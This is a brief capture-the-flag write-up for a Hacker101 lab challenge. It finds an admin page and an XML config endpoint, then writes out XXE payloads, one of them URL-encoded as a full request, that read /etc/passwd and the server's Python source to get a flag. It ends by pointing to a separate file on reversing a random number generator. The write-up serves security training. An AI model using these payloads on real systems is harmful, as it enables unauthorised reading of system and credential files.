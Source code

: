Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is '<?xml version="1.0" encoding="UTF-8"?>' which indicates the server uses xml for config.

xxe payload: <?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![Alt text](image.png)

The server is hosted with python so we can read the main.py file which has the first flag.

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>

![Alt text](main.py)

In the main file we can see the server is using a custom rng file.

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>

Now to reverse the pseudorng (see ![Alt text](flag2.md))...